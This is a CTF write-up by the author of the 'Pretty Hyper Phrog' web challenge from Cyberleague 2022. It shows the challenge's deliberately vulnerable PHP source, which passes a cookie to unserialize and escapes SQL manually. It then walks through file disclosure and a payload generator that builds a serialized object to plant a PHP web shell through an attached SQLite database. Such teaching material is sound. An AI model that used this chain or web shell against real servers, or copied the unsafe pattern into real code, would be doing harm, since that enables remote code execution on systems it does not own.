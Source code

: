 ```yaml
---
title: Cyberleague Quarterfinals 2022 - Pretty Hyper Phrog
date: 2022-12-23
excerpt: Pretty Hyper Phrog writeup - PHP deserialization to LFI + RCE
category: Authored challenges
tags:
    - web
---
```


Writeup for one of the web challenges I set for [Cyberleague
2022](https://cyberleague.co/).

Here is the [source](/files/clqf-2022/php.zip)

The main vuln is PHP deserialization. In PHP, this allows
for arbitrary properties to be assigned to objects. In addition, the class of
the object can also be controlled. With these interesting capabilities of unsafe
deserialization, I made a 2-phase challenge that will require one to leverage
both concepts + some other exotic concepts to ultimately get RCE.

# Phase 1: LFI

Since the source wasn't provided in the CTF, our first goal is to get some sort
of LFI to get the complete source. 


Here's a sample "password", our attack vector:

```
Tzo0OiJVc2VyIjozOntzOjc6InBpY3R1cmUiO3M6MTY6InN0YXRpYy9waHJvZy5naWYiO3M6ODoidXN lcm5hbWUiO3M6ODoic2FtdXpvcmEiO3M6NDoidXVpZCI7czoxMzoiNjNhNDYyNTViNGM5YiI7fQ==
```

We know that each user's password is a PHP serialized object, and there is a
property `picture` that is pointing to `static/phrog.gif`. After some
experimenting we see that this is passed to `file_get_contents`, which we can
use to enumerate the source.

---

# Phase 2: RCE

We not only want LFI, we want RCE too! With big and well-known frameworks, PHP
deserialization is a piece of cake, as there are ready-made RCE gadget chains
online. However, this is a custom implementation so it doesn't exist. We need to
make it ourselves :(

Some of the leaked files:

index.php
```php
<?php
require("user.php");
require("util.php");

$conn = new Conn;

if (array_key_exists("password", $_COOKIE) === false) {
    echo file_get_contents("static/index.html");
    die();
}
$temp = unserialize(base64_decode($_COOKIE["password"]));
$conn->query = "select username, uuid from users where uuid = :uuid";
$conn->params = array(":uuid" => $temp->uuid);
$result = $conn->query();
if ($result) {
    $user = $temp;
} else {
    header("Location: /login.php");
}
?>

<!DOCTYPE html>
<head>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-EVSTQN3/azprG1Anm3QDgpJLIm9Nao0Yz1ztcQTwFspd3yD65VohhpuuCOmLASjC" crossorigin="anonymous">
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/js/bootstrap.bundle.min.js" integrity="sha384-MrcW6ZMFYlzcLA8Nl+NtUVF0sA7MsXsP1UyJoMp4YLEuNSfAP+JcXn/tWtIaxVXM" crossorigin="anonymous"></script>
</head>
<body>
    <div class="container mt-5 px-auto">
        <div class="row">
            <div class="col">
                 <?php echo $user->whoami(); ?>
            </div>
            <div class="col">
                <p>I hope u like phrogs</p>
            </div>
        </div>
    </div>
</body>
```

user.php
```php
<?php
class User {
    public $picture;
    public $username;
    public $uuid;

    public function __construct(string $username, string $uuid) {
        $this->username = $username;
        $this->picture = "static/phrog.gif";
        $this->uuid = $uuid;
    }
    
    public function whoami() {
        $picture = base64_encode(file_get_contents($this->picture));
        return "
            <div class='card' style='width: 50%'>
                <img class='card-img-top' src='data:image/gif;base64,{$picture}' class='rounded' alt='phrog'>
                <div class='card-body'>
                    <h5 class='card-title'>User: {$this->username}</h5>
                    <p>uuid: {$this->uuid}</p>
                </div>
            </div>
        ";
    }
}
?>
```

util.php
```php
<?php
class Conn {
    public $query;
    public $params;

    public function __call(string $name, array $arguments) {
        $conn = new SQLite3("/sqlite3/db");
        $query = $this->query;
        foreach ($this->params as $key=>$value) {
            $value = $conn->escapeString($value);
            $query = str_replace($key, "'$value'", $query);
        }

        // in case we ever need to execute multiple queries
        $queries = explode("; ", $query);
        foreach ($queries as $temp) {
            $result = $conn->query($temp);
        }
        if ($result !== false) {
            if ($result->numColumns()) {
                return $result->fetchArray();
            } else {
                return true;
            }
        } else {
            return $result;
        }
    }
}
?>
```

Some things to note:

1. In `Conn`, the query is being prepared manually. This could maybe give us
   SQLi, if we manage to bypass the (not so stringent) checks. Props to RVCTF
   who found an unintended solution via the weak escaping. (The reason why I had
   to implement my own query, is because we need multiple queries for the
   exploit - and I couldn't find a driver that could allow me to do that. So I
   exploded based on `; ` and ran each query manually.)
2. In `Conn`, `__call` is being used to invoke the query function. [This magic
   method](https://www.phptutorial.net/php-oop/php-__call/) defines a fallback
   for undefined properties that are invoked.

As you might guess based on the context of the challenge, we can change `$temp`
(and hence `$user`) into a `$Conn` object. This would allow us to control the
`$query` array in our poisoned object and execute our own queries via the
`->whoami()` call (since it doesn't exist on a `$Conn`, it will fallback to
`__call()`). While we do this, we also need to ensure that `->username` and
`->uuid` remains constant so we pass the check.

With this we can execute arbitrary SQL (should I call this SQLi?). But how to
get RCE?

SQLite uses a single-file database locally, instead of connecting to a remote
service. And we can attach new databases to arbitrary locations, which creates a
file with some binary content, as well as whatever we insert into the new
database. 

So in a fashion similar to PHP web shells, we can create a malicious SQLite
database in `/var/www/html`, create a table and insert a row with our web
shell, thus gaining RCE!

Below is the code to generate the payload:

```php
<?php
class Conn {
    public $username = 'samuzora';
    public $uuid = '63a46255b4c9b';
    public $query = "attach database './63a46255b4c9b.php' as test; create table test.a (payload text); insert into test.a values ('<?php system(\$_GET[\"cmd\"]) ?>')";
    public $params = array();
}
echo base64_encode(serialize(new Conn));
?>
```
